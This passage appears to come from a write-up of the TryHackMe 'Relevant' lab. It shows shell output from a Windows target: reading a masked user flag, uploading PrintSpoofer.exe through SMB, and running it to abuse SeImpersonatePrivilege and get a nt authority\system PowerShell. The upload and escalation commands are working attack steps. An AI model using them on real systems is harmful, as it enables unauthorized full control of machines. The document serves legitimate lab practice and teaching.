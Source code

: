 Finally got it
```
c:\Users\Bob\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Bob\Desktop

07/25/2020  02:04 PM    <DIR>          .
07/25/2020  02:04 PM    <DIR>          ..
07/25/2020  08:24 AM                35 user.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,217,888,768 bytes free

c:\Users\Bob\Desktop>type user.txt
type user.txt
THM{#####################}
c:\Users\Bob\Desktop>
```
I got to know about the PrintSpoofer from walkthrough as I am not very familiar with windows privilege escalation.
So saw The mayor's walkthrough for privilege escalation.

https://www.cybergoat.co.uk/writeup/Relevant-TryHackMe/

https://github.com/itm4n/PrintSpoofer

https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/

Here are the articles that might help you understand about the escalation.
```
smb: \> put PrintSpoofer.exe 
putting file PrintSpoofer.exe as \PrintSpoofer.exe (22.3 kb/s) (average 19.0 kb/s)
smb: \> pwd
Current directory is \\10.10.177.188\nt4wrksv\
smb: \> 
```


```
 Directory of c:\inetpub\wwwroot\nt4wrksv

09/19/2020  02:29 AM    <DIR>          .
09/19/2020  02:29 AM    <DIR>          ..
09/19/2020  02:15 AM            15,969 new.aspx
07/25/2020  08:15 AM                98 passwords.txt
09/19/2020  02:29 AM            27,136 PrintSpoofer.exe
               3 File(s)         43,203 bytes
               2 Dir(s)  21,055,516,672 bytes free

c:\inetpub\wwwroot\nt4wrksv>

c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c powershell.exe
PrintSpoofer.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.


PS C:\Windows\system32> whoami

PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32>
```